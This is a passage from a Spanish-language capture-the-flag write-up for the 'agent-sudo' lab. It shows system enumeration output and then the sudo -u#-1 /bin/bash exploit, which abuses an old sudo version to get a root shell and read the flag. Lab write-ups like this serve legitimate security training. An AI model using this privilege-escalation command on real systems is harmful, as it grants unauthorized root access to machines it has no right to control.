 ```bash
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username
...
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.15.0-55-generic (buildd@lcy01-amd64-029) (gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1)) #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.3 LTS
Release:	18.04
Codename:	bionic

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.21p2


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
...
```

Observamos la vulnerabilidad para la versión de sudo, por lo que vamos al link que nos comparte [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version):

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# whoami
root
root@agent-sudo:~#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).